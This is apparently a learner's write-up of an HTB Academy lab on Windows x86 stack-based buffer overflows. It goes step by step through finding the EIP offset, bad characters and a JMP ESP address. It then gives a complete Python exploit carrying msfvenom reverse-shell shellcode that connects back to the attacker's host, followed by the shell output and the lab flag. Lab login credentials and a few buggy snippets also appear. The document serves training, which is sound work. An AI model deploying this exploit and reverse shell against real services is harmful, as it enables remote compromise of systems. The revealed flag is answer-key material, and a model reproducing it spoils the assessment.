










HI everyone welcome to my write-up. This one has being the milestone to prove that i complete  **`Intro to Binary Exploitation` . B**ut there still quite a few things i dont really clear and not understand everything completely. So upcoming i will have some comparsons of linux and windows buffer overflow maybe…. And practice with some binary exploitation lab or ctf. 

So now Lets go beat the `**Stack-Based Buffer Overflows on Windows x86 - Skills Assessment**`

## Setting up env and prepare everything for the lab

Be caution in this lab you have to use the vm pc provide by the module in previous section.

I mean this 

```python
xfreerdp3 /v:10.129.96.148 /u:htb-student /p:Academy_student!

# replace my ip with you vmmachine ip
```



And here if you want your the assessment file in the vm just simply copy in your linux machine and go to the window mc and paste like this:



Okay, I have been stuck at this for about an hour just because I thought I could only do that when downloading on my Windows PC.

## Part1 : Determining the Offset

Ok and here is the code that i use to find out the buffer

```python
import socket
from struct import pack

IP = '127.0.0.1'
port = 21449

buffer = b"A" * 500
print('ok')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((IP,port))
s.send(buffer)
s.close

```



Here we can see the eip is all `41414141`which mean A in hexa

The message indicates that the program tried to execute the address `41414141`. In ASCII, the upper case `A` has hex code `0x41`, so it looks like the program tried to go to address `AAAA`, which means that we have successfully changed the `EIP` address.

### Controlling EIP

AS we already have the pattern = 500

```
ERC --pattern c 500

"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac" 
"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8" 
"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A" 
"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al" 
"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6" 
"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq" 
```

```python
import socket
from struct import pack

def eip_offset():
    payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq", "utf-8")

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 21449))
    s.send(pattern)
    s.close()

eip_offset()
```



Here is an ERC command to help you determine EIP offset
```
 ERC --pattern o pA6p
```

Look at the `EAX` the value change equal with the payload we created.



```python
EIP offset = 469
```

### EIP control

```python
import socket
from struct import pack

def eip_control():
    offset = 469 
    buffer = b"A" * offset
    eip = b"B" * 4 
    payload = buffer + eip
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP,port))
    s.send(payload)
    breakpoint()
    s.close()

eip_control()
```



### Bad character identified

To be quick i already help you guy solve first two bad characters and you guy can do it yourself just like below:

#This is the code for bad_chars. You run it and check with ERC to see if it not contain any more bad_characters

```python
import socket
from struct import pack

def bad_chars():
    all_chars = bytes([0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08,0x09,0x0b,0x0c,0x0d,0x0e,0x0f,0x10,0x11,0x12,0x13,0x14,0x15,0x16,0x17,0x18,0x19,0x1a,0x1b,0x1c,0x1d,0x1e,0x1f,0x20,0x21,0x22,0x23,0x24,0x25,0x26,0x27,0x28,0x29,0x2a,0x2b,0x2c,0x2d,0x2e,0x2f,0x30,0x31,0x32,0x33,0x34,0x35,0x36,0x37,0x38,0x39,0x3a,0x3b,0x3c,0x3d,0x3e,0x3f,0x40,0x41,0x42,0x43,0x44,0x45,0x46,0x47,0x48,0x49,0x4a,0x4b,0x4c,0x4d,0x4e,0x4f,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x6c,0x6d,0x6e,0x6f,0x70,0x71,0x72,0x73,0x74,0x75,0x76,0x77,0x78,0x79,0x7a,0x7b,0x7c,0x7d,0x7e,0x7f,0x80,0x81,0x82,0x83,0x84,0x85,0x86,0x87,0x88,0x89,0x8a,0x8b,0x8c,0x8d,0x8e,0x8f,0x90,0x91,0x92,0x93,0x94,0x95,0x96,0x97,0x98,0x99,0x9a,0x9b,0x9c,0x9d,0x9e,0x9f,0xa0,0xa1,0xa2,0xa3,0xa4,0xa5,0xa6,0xa7,0xa8,0xa9,0xaa,0xab,0xac,0xad,0xae,0xaf,0xb0,0xb1,0xb2,0xb3,0xb4,0xb5,0xb6,0xb7,0xb8,0xb9,0xba,0xbb,0xbc,0xbd,0xbe,0xbf,0xc0,0xc1,0xc2,0xc3,0xc4,0xc5,0xc6,0xc7,0xc8,0xc9,0xca,0xcb,0xcc,0xcd,0xce,0xcf,0xd0,0xd1,0xd2,0xd3,0xd4,0xd5,0xd6,0xd7,0xd8,0xd9,0xda,0xdb,0xdc,0xdd,0xde,0xdf,0xe0,0xe1,0xe2,0xe3,0xe4,0xe5,0xe6,0xe7,0xe8,0xe9,0xea,0xeb,0xec,0xed,0xee,0xef,0xf0,0xf1,0xf2,0xf3,0xf4,0xf5,0xf6,0xf7,0xf8,0xf9,0xfa,0xfb,0xfc,0xfd,0xfe,0xff])
    offset = 469
    buffer = b'A' * offset
    eip = b'B' * 4
    payload = buffer + eip + all_chars 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP,port))
    s.send(payload)
    s.close()

bad_chars()

```

```python
bar_chars = 0x00, 0x0A, 0x0D

ERC --bytearray -bytes 0x00,0x0a,0x0d
erc --compare 0106FB48 C:\Users\htb-student\Desktop\ByteArray_3.bin
```

```
Comparing memory region starting at 0x106FB48 to bytes in file C:\Users\htb-student\Desktop\ByteArray_3.bin
                   ----------------------------------------------------
        From Array | 01 02 03 04 05 06 07 08 09 0B 0C 0E 0F 10 11 12  | 
From Memory Region | 01 02 03 04 05 06 07 08 09 0B 0C 0E 0F 10 11 12  | 
                   |                                                  | 
        From Array | 13 14 15 16 17 18 19 1A 1B 1C 1D 1E 1F 20 21 22  | 
From Memory Region | 13 14 15 16 17 18 19 1A 1B 1C 1D 1E 1F 20 21 22  | 
                   |                                                  | 
        From Array | 23 24 25 26 27 28 29 2A 2B 2C 2D 2E 2F 30 31 32  | 
From Memory Region | 23 24 25 26 27 28 29 2A 2B 2C 2D 2E 2F 30 31 32  | 
                   |                                                  | 
        From Array | 33 34 35 36 37 38 39 3A 3B 3C 3D 3E 3F 40 41 42  | 
From Memory Region | 33 34 35 36 37 38 39 3A 3B 3C 3D 3E 3F 40 41 42  | 
                   |                                                  | 
        From Array | 43 44 45 46 47 48 49 4A 4B 4C 4D 4E 4F 50 51 52  | 
From Memory Region | 43 44 45 46 47 48 49 4A 4B 4C 4D 4E 4F 50 51 52  | 
                   |                                                  | 
        From Array | 53 54 55 56 57 58 59 5A 5B 5C 5D 5E 5F 60 61 62  | 
From Memory Region | 53 54 55 56 57 58 59 5A 5B 5C 5D 5E 5F 60 61 62  | 
                   |                                                  | 
        From Array | 63 64 65 66 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72  | 
From Memory Region | 63 64 65 66 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72  | 
                   |                                                  | 
        From Array | 73 74 75 76 77 78 79 7A 7B 7C 7D 7E 7F 80 81 82  | 
From Memory Region | 73 74 75 76 77 78 79 7A 7B 7C 7D 7E 7F 80 81 82  | 
                   |                                                  | 
        From Array | 83 84 85 86 87 88 89 8A 8B 8C 8D 8E 8F 90 91 92  | 
From Memory Region | 83 84 85 86 87 88 89 8A 8B 8C 8D 8E 8F 90 91 92  | 
                   |                                                  | 
        From Array | 93 94 95 96 97 98 99 9A 9B 9C 9D 9E 9F A0 A1 A2  | 
From Memory Region | 93 94 95 96 97 98 99 9A 9B 9C 9D 9E 9F A0 A1 A2  | 
                   |                                                  | 
        From Array | A3 A4 A5 A6 A7 A8 A9 AA AB AC AD AE AF B0 B1 B2  | 
From Memory Region | A3 A4 A5 A6 A7 A8 A9 AA AB AC AD AE AF B0 B1 B2  | 
                   |                                                  | 
        From Array | B3 B4 B5 B6 B7 B8 B9 BA BB BC BD BE BF C0 C1 C2  | 
From Memory Region | B3 B4 B5 B6 B7 B8 B9 BA BB BC BD BE BF C0 C1 C2  | 
                   |                                                  | 
        From Array | C3 C4 C5 C6 C7 C8 C9 CA CB CC CD CE CF D0 D1 D2  | 
From Memory Region | C3 C4 C5 C6 C7 C8 C9 CA CB CC CD CE CF D0 D1 D2  | 
                   |                                                  | 
        From Array | D3 D4 D5 D6 D7 D8 D9 DA DB DC DD DE DF E0 E1 E2  | 
From Memory Region | D3 D4 D5 D6 D7 D8 D9 DA DB DC DD DE DF E0 E1 E2  | 
                   |                                                  | 
        From Array | E3 E4 E5 E6 E7 E8 E9 EA EB EC ED EE EF F0 F1 F2  | 
From Memory Region | E3 E4 E5 E6 E7 E8 E9 EA EB EC ED EE EF F0 F1 F2  | 
                   |                                                  | 
        From Array | F3 F4 F5 F6 F7 F8 F9 FA FB FC FD FE FF  | 
From Memory Region | F3 F4 F5 F6 F7 F8 F9 FA FB FC FD FE FF  | 
                   |                                                  | 
                   ----------------------------------------------------
```

Note here : If you stuck with identify bad_chars. Here is `0x0A` you can see the 00 below it, and other hex num after it also have the below value is 00 → It is a bad character



## Part 2 : Remote execute

> erc --moduleinfo
> 



Ctrl + f : find command jmp esp



create buffer reverse shell

```python
nc -lvnp 1234
```

LHOST is your vpn tunnel

```python
msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.113 LPORT=1234 -f 'python' -b '\x00\x0A\x0D'

```

```python
from struct import pack
import socket

def exploit():
    IP= "10.129.35.5"
    port=21449   
    try:
        buf =  b""
        buf += b"\xbe\x12\x9c\xd2\xc4\xda\xcc\xd9\x74\x24\xf4\x5b"
        buf += b"\x33\xc9\xb1\x52\x83\xc3\x04\x31\x73\x0e\x03\x61"
        buf += b"\x92\x30\x31\x79\x42\x36\xba\x81\x93\x57\x32\x64"
        buf += b"\xa2\x57\x20\xed\x95\x67\x22\xa3\x19\x03\x66\x57"
        buf += b"\xa9\x61\xaf\x58\x1a\xcf\x89\x57\x9b\x7c\xe9\xf6"
        buf += b"\x1f\x7f\x3e\xd8\x1e\xb0\x33\x19\x66\xad\xbe\x4b"
        buf += b"\x3f\xb9\x6d\x7b\x34\xf7\xad\xf0\x06\x19\xb6\xe5"
        buf += b"\xdf\x18\x97\xb8\x54\x43\x37\x3b\xb8\xff\x7e\x23"
        buf += b"\xdd\x3a\xc8\xd8\x15\xb0\xcb\x08\x64\x39\x67\x75"
        buf += b"\x48\xc8\x79\xb2\x6f\x33\x0c\xca\x93\xce\x17\x09"
        buf += b"\xe9\x14\x9d\x89\x49\xde\x05\x75\x6b\x33\xd3\xfe"
        buf += b"\x67\xf8\x97\x58\x64\xff\x74\xd3\x90\x74\x7b\x33"
        buf += b"\x11\xce\x58\x97\x79\x94\xc1\x8e\x27\x7b\xfd\xd0"
        buf += b"\x87\x24\x5b\x9b\x2a\x30\xd6\xc6\x22\xf5\xdb\xf8"
        buf += b"\xb2\x91\x6c\x8b\x80\x3e\xc7\x03\xa9\xb7\xc1\xd4"
        buf += b"\xce\xed\xb6\x4a\x31\x0e\xc7\x43\xf6\x5a\x97\xfb"
        buf += b"\xdf\xe2\x7c\xfb\xe0\x36\xd2\xab\x4e\xe9\x93\x1b"
        buf += b"\x2f\x59\x7c\x71\xa0\x86\x9c\x7a\x6a\xaf\x37\x81"
        buf += b"\xfd\xda\xcd\x86\x8c\xb2\xd3\x98\x6a\x91\x5d\x7e"
        buf += b"\x18\x05\x08\x29\xb5\xbc\x11\xa1\x24\x40\x8c\xcc"
        buf += b"\x67\xca\x23\x31\x29\x3b\x49\x21\xde\xcb\x04\x1b"
        buf += b"\x49\xd3\xb2\x33\x15\x46\x59\xc3\x50\x7b\xf6\x94"
        buf += b"\x35\x4d\x0f\x70\xa8\xf4\xb9\x66\x31\x60\x81\x22"
        buf += b"\xee\x51\x0c\xab\x63\xed\x2a\xbb\xbd\xee\x76\xef"
        buf += b"\x11\xb9\x20\x59\xd4\x13\x83\x33\x8e\xc8\x4d\xd3"
        buf += b"\x57\x23\x4e\xa5\x57\x6e\x38\x49\xe9\xc7\x7d\x76"
        buf += b"\xc6\x8f\x89\x0f\x3a\x30\x75\xda\xfe\x40\x3c\x46"
        buf += b"\x56\xc9\x99\x13\xea\x94\x19\xce\x29\xa1\x99\xfa"
        buf += b"\xd1\x56\x81\x8f\xd4\x13\x05\x7c\xa5\x0c\xe0\x82"
        buf += b"\x1a\x2c\x21"

        offset = 469
        buffer = b"A"*offset    
        eip = pack('<L', 0x621014E3)
        nop = b"\x90" * 32
        payload = buffer  + eip  + nop + buf

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP,port))    
        s.send(payload)
        s.close

    except: 
        print("Could not establish the connection")

exploit()

```

And run the file at the end you got



```python
 Directory of C:\Users\Administrator\Desktop

04/28/2021  01:00 PM    <DIR>          .
04/28/2021  01:00 PM    <DIR>          ..
04/27/2021  02:43 AM                31 flag.txt
               1 File(s)             31 bytes
               2 Dir(s)  18,179,403,776 bytes free

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt

HTB{r3m073_3xpl0174710n_n1nj4}

```

### Flag :

`HTB{r3m073_3xpl0174710n_n1nj4}`

Wow the lab cost me 5hours to do really nice 💘 
If there are anythings i forgot you can mail me at: longduiga0123@gmail.com